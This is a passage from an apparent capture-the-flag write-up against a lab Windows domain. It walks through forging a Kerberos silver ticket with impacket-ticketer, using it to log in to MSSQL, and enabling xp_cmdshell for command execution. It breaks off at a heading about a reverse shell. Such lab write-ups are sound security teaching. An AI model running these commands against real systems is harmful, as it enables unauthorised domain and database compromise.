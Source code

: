 -   As we have all the necessary parts, domain `SID`, password &amp; `NTLM` hash we should be able to craft a `kerberos` silver ticket.
-   **I use** `impacket-ticketer` **to make the silver ticket**:
    -   `impacket-ticketer -nthash $hash -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain $domain -dc-ip dc1.$domain -spn MSSQLSvc/dc1.scrm.local:1433 administrator`
    -   {{< figure src="/ox-hugo/2024-10-07-113003_.png" >}}
    -   As you can see there are some errors, however it still creates the `administrator.ccache`


### Using the silver ticket to access the `SQL` instance: {#using-the-silver-ticket-to-access-the-sql-instance}

-   **I load the ticket into the** `KRB5CCNAME` **variable**
    -   `export KRB5CCNAME=./administrator.ccache`
    -   {{< figure src="/ox-hugo/2024-10-07-113229_.png" >}}

-   **I check the ticket is loaded with** `klist`:
    -   `klist`
    -   {{< figure src="/ox-hugo/2024-10-07-113345_.png" >}}

-   **I access the host using** `impacket-mssqlclient`:
    -   `impacket-mssqlclient dc1.$domain -k`
    -   {{< figure src="/ox-hugo/2024-10-07-113539_.png" >}}


## 3. Foothold: {#3-dot-foothold}


### Activating `xp_cmdshell` on the host to enumerate the underlying host system: {#activating-xp-cmdshell-on-the-host-to-enumerate-the-underlying-host-system}

-   **As soon as I connect I see if I can activate** `xp_cmdshell`:
    -   `enable_xp_cmdshell`
    -   {{< figure src="/ox-hugo/2024-10-07-114646_.png" >}}
    -   It works which means we now have remote code execution on the host itself.

-   **I check my privs**:
    -   `xp_cmdshell whoami /priv`
    -   {{< figure src="/ox-hugo/2024-10-07-114835_.png" >}}

-   **I enumerate the host &amp; the website directory**:
    -   I try and read the logs and history files but do not have the correct perms:
        -   {{< figure src="/ox-hugo/2024-10-07-115438_.png" >}}

-   **I also check the users home folders but I can only access my own and there is nothng of note**:
    -   {{< figure src="/ox-hugo/2024-10-07-115516_.png" >}}

    -   **I try and enumerate the shares but I don't have access there either**:
        -   {{< figure src="/ox-hugo/2024-10-07-115347_.png" >}}


### Getting a reverse shell as `sqlsvc`: {#getting-a-reverse-shell-as-sqlsvc}
